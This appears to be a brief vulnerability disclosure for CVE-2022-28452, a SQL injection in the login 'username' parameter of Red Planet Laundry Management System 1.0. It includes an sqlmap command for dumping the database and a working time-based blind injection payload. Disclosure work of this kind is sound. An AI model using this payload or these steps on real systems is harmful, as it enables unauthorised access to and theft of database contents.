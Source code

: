 # Red-Planet-Laundry-Management-System-1.0-is-vulnerable-to-SQL       

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-28452
https://nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-28452
https://laundry.redplanetcomputers.com/

1-Description:

Red Planet Laundry Management System 1.0 is vulnerable to SQL Injection via parameter 'username' in /index.php/login/rediract . Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit latent vulnerabilities in the underlying database.

2-Proof of Concept:

In Burpsuite intercept the request from the affected page with 'username' parameter and save it like poc.txt Then run SQLmap to extract the data from the database:
sqlmap.py -r poc.txt --dbms=mysql

3-Example payload:

URL encoded POST input username was set to 0'XOR(if(now()=sysdate(),sleep(4),0))XOR'Z












Contact details:   alexsahbaz@gmail.com
